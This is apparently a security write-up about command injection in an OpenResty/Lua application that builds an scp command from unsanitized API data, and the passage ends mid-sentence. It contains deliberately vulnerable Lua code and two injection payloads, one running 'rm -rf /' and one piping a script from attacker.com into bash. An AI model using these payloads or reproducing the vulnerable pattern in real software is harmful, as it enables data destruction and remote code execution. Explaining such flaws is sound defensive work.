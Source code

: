 **Description:** This attack path highlights a critical vulnerability where an attacker can inject arbitrary commands into commands that are constructed by the Lua application and subsequently executed on an external system. This occurs when the application uses unsanitized data received from external sources (e.g., API responses, user input intended for an external system) to build commands without proper validation or escaping.

**Technical Breakdown:**

In an OpenResty/Lua application, interaction with external systems often involves using libraries or built-in functions to make HTTP requests, execute shell commands on remote servers (less common but possible), or interact with databases. The vulnerability arises when data received from an external source is directly incorporated into the command string without proper sanitization.

**Example Scenario:**

Imagine a Lua application acting as a proxy or aggregator, fetching data from an external API and then using part of that data to construct a command to send to another internal server.

```lua
-- Vulnerable Lua code example
local http = require "resty.http"
local cjson = require "cjson"

local function process_external_data(api_url)
  local httpc = http.new()
  local res, err = httpc:request_uri(api_url)
  if not res then
    ngx.log(ngx.ERR, "Error fetching data from API: ", err)
    return
  end

  local body = res.body
  local data = cjson.decode(body)

  -- Assume the API returns JSON like: {"filename": "report.txt"}
  local filename = data.filename

  -- Constructing a command to send to another server (hypothetical)
  local command = string.format("scp %s user@internal-server:/tmp/", filename)

  -- Potentially executing the command (this is a simplified example, actual execution would involve other libraries/methods)
  -- In a real scenario, this might involve using a system call or an SSH library.
  ngx.say("Executing command: ", command) -- For demonstration purposes only, actual execution is the risk.
end

-- The api_url might be influenced by user input or configuration
local api_url = ngx.var.arg_api_url or "https://external-api.com/data"
process_external_data(api_url)
```

**Vulnerability:** If the external API returns a malicious filename like `"report.txt; rm -rf /"` or `"report.txt && curl attacker.com/exfil.sh | bash"`, the constructed command becomes:
